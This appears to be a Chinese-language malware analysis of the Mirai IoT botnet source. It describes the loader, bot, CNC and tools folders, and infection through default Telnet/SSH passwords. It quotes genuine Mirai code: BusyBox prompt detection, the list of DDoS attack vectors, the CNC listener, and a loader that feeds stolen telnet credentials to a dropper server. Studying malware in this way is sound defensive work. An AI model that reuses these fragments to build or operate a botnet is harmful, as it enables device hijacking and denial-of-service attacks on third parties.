 #### 代码结构
主要包含两个文件夹，其中loader文件夹为加载器，完成服务端创建和状态监控的功能；mirai文件夹完成主要的恶意功能，包含网络连接、DDOS执行、下载（等工具的实现）以及主控端操作功能

#### 感染途径
攻击者通过SSH或Telnet账号，使用默认密码入侵物联网设备

#### 功能实现

#### Bot
代码实现的恶意功能从源码来看，主要包含3方面，主要是bot文件夹，实现反调试、隐藏自身进程、设置初始的域名端口值、设置默认弱口令、网络连接及DDOS攻击功能；
Tools文件夹，实现wget、更新文件、异或数据等工具性功能；

```
static void anti_gdb_entry(int);
static void resolve_cnc_addr(void);
static void establish_connection(void);
static void teardown_connection(void);
static void ensure_single_instance(void);
static BOOL unlock_tbl_if_nodebug(char *);
```

- 如果监测到gdb调试，则进行自删除，阻止watchdog重新启动设备，并显示连接CC地址失败
- 确保每次只有一个实例运行（通过连接本地端口48101）,并通过此端口号关闭相对应的进程
- 隐藏进程
- 攻击初始化，设置攻击类型，包含UDP、VSE、DNS、SYN等多种DDOS攻击方式
- 端口初始化，通过端口号关闭使用telnet、SSH、HTTP服务的其他进程，并防止其重新启动
- 扫描初始化，扫描局域网中具有弱口令以及开放23端口的其他设备

#### 连接域名及端口号
- 在源码中硬编码方式嵌入了连接的域名和端口号，其中的域名字符串都可以使用Tools文件夹下的enc.c所示的算法进行还原
- 其目标为使用busybox的设备
```
if (memmem(buf, got, "BusyBox", 7) != NULL)
{
    state->got_prompt = 1;
    
    //maybe we are logged in already? LOL
    sockprintf(state->fd, "enable\r\n");
    state->state = 7;
    break;
}
```
- DDOS攻击方法
```
#define ATK_VEC_UDP        0  /* Straight up UDP flood */
#define ATK_VEC_VSE        1  /* Valve Source Engine query flood */
#define ATK_VEC_DNS        2  /* DNS water torture */
#define ATK_VEC_SYN        3  /* SYN flood with options */
#define ATK_VEC_ACK        4  /* ACK flood */
#define ATK_VEC_STOMP      5  /* ACK flood to bypass mitigation devices */
#define ATK_VEC_GREIP       6  /* GRE IP flood */
#define ATK_VEC_GREETH     7  /* GRE Ethernet flood */
//#define ATK_VEC_PROXY     8  /* Proxy knockback connection */
#define ATK_VEC_UDP_PLAIN  9  /* Plain UDP flood optimized for speed */
#define ATK_VEC_HTTP        10 /* HTTP layer 7 flood */
```
- 设置用户名密码

#### CNC文件夹
监听端口23和101，分别完成不同的操作。此部分操作主要为主控端的操作
```
funcmain() {
  tel, err := net.Listen("tcp", "0.0.0.0:23")
  if err != nil {
    fmt.Println(err)
    return
  }
  api, err := net.Listen("tcp", "0.0.0.0:101")
  if err != nil {
    fmt.Println(err)
    return
  }
  gofunc() {
    for {
      conn, err := api.Accept()
      if err != nil {
          break
      }
      goapiHandler(conn)
    }
  }()
  for {
    conn, err := tel.Accept()
    if err != nil {
        break
    }
    goinitialHandler(conn)
  }
}
```

#### Tools文件夹
- Single_Load.c 加载文件
- Wget.c 获取远程文件
- Nogdb.c(更新文件信息)
- Badbot.c(显示指定的bot信息)

#### loader文件夹
其主要功能是创建服务器，同时监控连接的状态
```
if (!binary_init()) {
  printf("Failed to load bins/dlr.* as dropper\n");
  return 1;
}

/* wget address tftp address */
if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs, 1024 * 64, "100.200.100.100", 80, "100.200.100.100")) == NULL)
{
    printf("Failed to initialize server. Aborting\n");
    return 1;
}

pthread_create(&stats_thrd, NULL, stats_thread, NULL);
// Read from stdin

while (TRUE) {
    char strbuf[1024];
    if (fgets(strbuf, sizeof (strbuf), stdin) == NULL) {
        break;
    }

    util_trim(strbuf);

    if (strlen(strbuf) == 0) {
        usleep(10000);
        continue;
    }

    memset(&info, 0, sizeof(struct telnet_info));

    if (telnet_info_parse(strbuf, &info) == NULL) {
        printf("Failed to parse telnet info: \"%s\" Format -> ip:port user:pass arch\n", strbuf);
    } else {
        if (srv == NULL)
            printf("srv == NULL 2\n");

        server_queue_telnet(srv, &info);
        if (total++ % 1000 == 0)
            sleep(1);
    }
    ATOMIC_INC(&srv->total_input);
}

printf("Hit end of input.\n");

while(ATOMIC_GET(&srv->curr_open) > 0) {
  sleep(1);
}

return 0;
```
